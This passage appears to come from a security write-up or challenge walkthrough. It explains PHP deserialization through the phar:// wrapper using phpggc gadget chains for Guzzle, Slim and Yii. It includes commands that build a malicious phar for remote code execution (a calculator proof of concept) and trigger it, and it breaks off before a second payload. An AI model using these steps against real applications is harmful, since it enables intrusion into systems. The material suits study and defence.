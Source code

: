 As ysoserial, this is an extremely powerful tool, which can automatically create gadget chains for many different PHP frameworks, such as:

* Drupal7
* Wordpress
* ZendFramework
* Slim
* Laravel
* Magento
* Guzzle
* ... others

Now, we know that the application above uses Slim, Guzzle and Yii. If you have a look to the tool supported gadget chains, you'll find something very interesting:

```bash
$ phpggc -l

Gadget Chains
-------------

NAME                                      VERSION                        TYPE             VECTOR         I
Guzzle/RCE1                               6.0.0 <= 6.3.2                 rce              __destruct     *
Slim/RCE1                                 3.8.1                          rce              __toString
Yii/RCE1                                  1.1.20                         rce              __wakeup       *

```

To exploit the deserialization induced by `phar://`, we'll generate a malicious phar file, then let the application open it passing the phar wrapper as part of the name. The phar wrapper will force the file to be deserialized, allowing us to start a POP chain that will eventually lead to RCE. We can craft a valid payload in the following way:

```bash
$ phpggc Guzzle/RCE1 "shell_exec" "cmd /c calc" -p phar -pf desert -o desert.phar
```
Then, we can test the payload launching the vulnerable script, giving as input the payload, prefixed with the phar wrapper:

```bash
$ php php-wrap-desert.php -fphar://desert.phar/desert -p
```

Doing that will spawn a calculator on the hosting machine.

The other serialization vulnerability can be exploited in a similar way, the only things to notice is the following:

Even though we have a Slim RCE, if we don't enable the print function above, it won't work. It may be obvious, but in case you are struggling to get why, take a look to the Gadget Chain Vector above. Slim uses `__toString` to trigger the POP chain, hence it won't be able to do that without a string operation. Let's try it out. Create a payload like the following:
